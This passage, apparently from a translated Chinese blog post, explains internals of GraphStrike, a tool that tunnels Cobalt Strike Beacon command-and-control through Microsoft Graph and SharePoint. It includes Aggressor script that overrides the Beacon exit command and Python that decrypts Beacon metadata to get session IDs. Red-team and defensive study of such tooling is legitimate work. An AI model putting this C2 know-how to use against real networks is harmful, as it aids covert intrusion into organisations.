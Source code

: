 ```plain
    else if (typeOf($1) eq "class sleep.runtime.CollectionWrapper")
    {
        addAll(@bids, $1);
    }

    foreach $id (@bids)
    {
        $beaconIds = $beaconIds . " " . $id;
    }

    $command = "cd $scriptDir && $scriptPath $teamserverIP exit $beaconIds && cd -";

    # Append instructions to command to redirect stderr to processStdout
    $command = $command . " 2>&1";

    # Run command in a subshell to redirect stderr -> processStdout
    $data = exec(@("/bin/sh", "-c", $command));

    # We don't really need the output, but reading the data lets us block
    # until the server has completed work before we issue Beacon commands.
    $output = join("\n", readAll($data));

    if (size(@bids) > 0)
    {
        foreach $id (@bids)
        {
            bexit($id);
        }
    }
    else
    {
        bexit($1);
    }
}
```

Aggressor 允许您覆盖标准的 Beacon 命令；在第 1 行，定义了一个新的 'exit' 命令，它调用第 5 行的 'exitFunc' 函数。当调用现有命令时，这些自定义函数的运行方式与 GraphLdr 中使用的方式类似，在执行用户预期的原始函数 / 代码之前，我们会执行一些额外的操作。在这个例子中，我们告诉操作系统运行一个名为 'message.py' 的 Python3 脚本。这个脚本包含在 GraphStrike 中，并用于连接到在 GraphStrike 服务器上暴露和监听的套接字。使用这个连接，Cobalt Strike 客户端向 GraphStrike 服务器发送一条消息，通知它退出命令和关联的 Beacon ID。对于 'exit' 命令，在服务器端我们所做的只是终止服务该 Beacon 的线程以节省资源，并从 SharePoint 中删除 TS 任务文件和 Beacon 输出文件。当然，'sleep' 命令会调整 'BeaconComms' 循环中的睡眠时间，以与发给 Beacon 的命令相匹配。

在整个计划中有一个大问题。要做到这一点，TS 和 GraphStrike 服务器必须拥有一些共同的 Beacon 标识符。我能找到的唯一值是 Beacon 会话 ID；这个值包含在 Beacon 输出文件的名称中，位于 Beacon 元数据和分隔符之后。这里存在一个明显的问题，即只有在 Beacon 有输出要发送时才会创建 Beacon 输出文件；在那之前，我们只有 TS 任务文件，因此在我们使 Beacon 运行一个命令并返回输出之前，这个值对我们来说是不可用的... 至少我是这么认为的。

开源工具再次挺身而出。我之前看到过各种 “Cobalt Strike Beacon 配置解析器”，但从来没有太多理由亲自检查它们。Didier Stevens 几年前发布了一个用于此目的的工具，GraphStrike 服务器使用它来解决 “GetBeaconId” 函数中的这个障碍问题：

```plain
# External cs-decrypt-metadata.py script from https://github.com/DidierStevens/DidierStevensSuite/blob/master/cs-decrypt-metadata.py
metadataScript = "inc/cs-decrypt-metadata.py"
metadataCommand = f"{metadataScript} -f {CS_DIR}.cobaltstrike.beacon_keys -t 7:Metadata,13,12 " # Leave space as we tack on metadata afterwards

def GetBeaconId(metadata):
    beaconId = None
    output = subprocess.getoutput(metadataCommand + metadata).split()

    for line in output:
        if "bid:" in line:
            beaconId = output[output.index(line) + 2]

    # Make sure the metadata parser actually runs
```
